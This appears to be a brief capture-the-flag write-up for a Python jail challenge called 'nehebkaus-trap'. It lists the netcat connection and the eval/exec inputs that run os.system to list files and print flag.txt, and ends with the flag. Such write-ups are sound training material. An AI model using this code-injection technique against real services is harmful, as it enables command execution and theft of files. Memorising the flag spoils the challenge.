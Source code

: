 # nehebkaus-trap

**SOLVED**

`nc 142.93.38.14 32019`

```py
eval() # nice we have commands

print(str(eval(input())))
"exec('import os; print(os.getcwd())')"

exec(input())
# import os; print(os.getcwd())

exec(input())
# import os; print(os.system('ls'))

exec(input())
# import os; print(os.system('cat flag.txt'))
```

`HTB{y0u_d3f34t3d_th3_sn4k3_g0d!}`
